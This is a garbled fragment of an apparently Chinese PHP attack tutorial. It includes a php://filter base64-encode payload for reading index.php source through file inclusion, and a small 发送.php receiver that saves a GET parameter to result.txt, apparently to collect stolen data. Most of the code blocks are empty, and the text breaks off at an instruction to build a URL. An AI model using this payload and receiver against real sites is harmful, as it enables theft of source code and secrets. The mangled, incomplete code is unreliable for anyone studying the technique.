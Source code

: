 `PHP`

``

    
    
    1   
    2  
    

|

    
    
    "php://filter/read=convert.base64-encode/resource=index.php" >   
    "" >  
      
  
---|---  
  
`  
`

`发送.php：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3  
    

|

    
    
       
     file_put_contents( "result.txt" , $_GET [ 'file' ]) ;   
    ?>  
      
  
---|---  
  
`  
`

`然后在url中构造如下：`

`  
`

``

`代码`

``
